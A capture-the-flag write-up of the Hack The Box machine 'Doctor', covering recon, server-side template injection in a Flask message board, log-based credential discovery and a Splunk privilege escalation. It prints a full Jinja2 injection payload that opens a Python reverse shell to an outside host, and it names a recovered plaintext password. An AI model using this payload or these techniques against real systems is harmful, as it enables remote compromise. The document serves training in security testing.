

EASY-DOCTOR
1. Recon
Nmap
nmap finds three open ports: SSH (22), HTTP (80) and an unknown service which is running in the default Splunk management port (8089)

The NSE (Nmap Scripting Engine) finds the following information:
- The box is using Ubuntu
- The version of the SSH service is 8.2p1
- The port 80 HTTP server is using Apache 2.4.4, Werkzeug 1.0.1 (a Web Server Gateway Inferface) and Python 3.8.2
- The unknown service is a HTTP service for Splunk

Splunkd - TCP 8089
Visiting https://10.10.10.209:8089 shows a website with some links but they either require authentication or do nothing. Having tried some common user and password combinations without any success I will go on exploring the HTTP port.

Website - TCP 80
The site is for a doctor company. A domain (doctors.htb) is shown in the ‘contact us’ section. After adding it to /etc/hosts I will run gobuster to try brute forcing subdomains, but no results are found. I will also try running a DNS zone transfer with dig but, once again, no results are obtained.

The links in the top lead to some different pages so I will run gobuster again but this time I will try finding hidden directories and files instead of subdomains. All the results are related to the website and there is nothing that seems vulnerable there.

Running gobuster with http://doctors.htb shows some different results though. All the directories found are probably related to the login function as following them either doesn’t show anything or redirects to /login.

http://doctors.htb/login leads to a login form where an email is needed.

The Forgot Password? link contains a password recovery page that shows wether an email exists or not. Using cewl in http://10.10.10.209/ a single email is retrieved. Neither that email or any other email containing the names of the doctors shown in the website exists.


As no accounts have been found, I will create one following the Sign Up Now link. It seems that accounts are deleted after twenty minutes.

2. Gaining Access
Now that I’m logged in, I can post new messages or edit my account. After doing some testing, I have found that posting a message creates a XML entry in /archive.


Doing some research, I have come across this post Payload All The Things which talks about Server Side Template Injections. The post explains that a good way to test if an application is vulnerable to this attack is writing ${{<%[%'"}}%\. so the website shows an error. Posting a message with that title will lead to /archive showing an error. This could possibly lead to a Remote Code Execution through this kind of injections.

To identify which template is being used I will follow this image I have found in PortSwigger. Following the path wasn’t very useful as it led to ‘unknown’ though.


Using a payload I found here I managed to get a reverse shell and get access to the system.
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.6\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %shaun}


3. Privilege Escalation
Shaun
Using id to check which groups does the user web belong to, I have found that it is part of adm(4). This group has access to /var/logs so I will check if there are any plain text passwords in the logs.

One of the lines in /apache2/backup shows the string Guitar123 as the email used to reset its password. That is weird so let’s check if that is the password for shaun. It works so now I have access to user.txt

Root
After running some commands as shaun and looking for something inside the system that could let me escalate privileges to gain access as root, I have remembered that port 8089 had a login form. Using shaun:Guitar123 as the credentials I have logged in and now there are way more links than before.

Before visiting them one by a one I have looked for Splunk 8089 exploits and I have come across this one. After reading this explanation of what the script does adn why it works, I have used it and succesfully sent a reverse shell running as root to my kali. Now I can retrieve the root flag and submit it.